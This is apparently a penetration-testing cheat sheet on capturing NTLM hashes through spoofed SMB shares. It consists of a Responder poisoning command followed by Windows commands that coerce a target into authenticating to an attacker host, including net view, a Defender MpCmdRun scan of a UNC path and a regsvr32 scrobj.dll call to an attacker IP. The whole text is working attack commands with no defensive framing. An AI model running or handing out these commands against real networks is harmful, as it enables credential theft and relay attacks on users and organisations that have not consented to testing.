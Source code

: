 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag(s): #mitm #responder #smb #relay #ntlm

## 1.1 - Attacker

`$ sudo responder -I <interface> -rdwv`

## 1.2 - Target

`C:\> net view \\snare`

`C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt`

`PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null`

`C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll`